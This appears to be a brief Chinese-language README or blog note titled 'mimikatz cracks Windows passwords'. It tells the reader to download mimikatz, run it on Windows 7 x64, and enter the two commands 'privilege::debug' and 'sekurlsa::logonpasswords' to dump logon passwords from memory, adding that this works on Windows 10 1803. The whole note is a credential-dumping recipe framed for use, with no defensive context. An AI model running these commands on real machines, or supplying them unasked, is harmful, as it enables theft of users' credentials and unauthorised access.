

# mimikatz破解Windows密码
1. 下载[mimikatz](https://github.com/gentilkiwi/mimikatz/releases)
2. 运行`mimikatz.exe`,以Windows 7 x64旗舰版为例
3. 两行完事
    ```
    privilege::debug
    sekurlsa::logonpasswords
    ```
      
    对于目前最新的Windows 10 1803也是适用的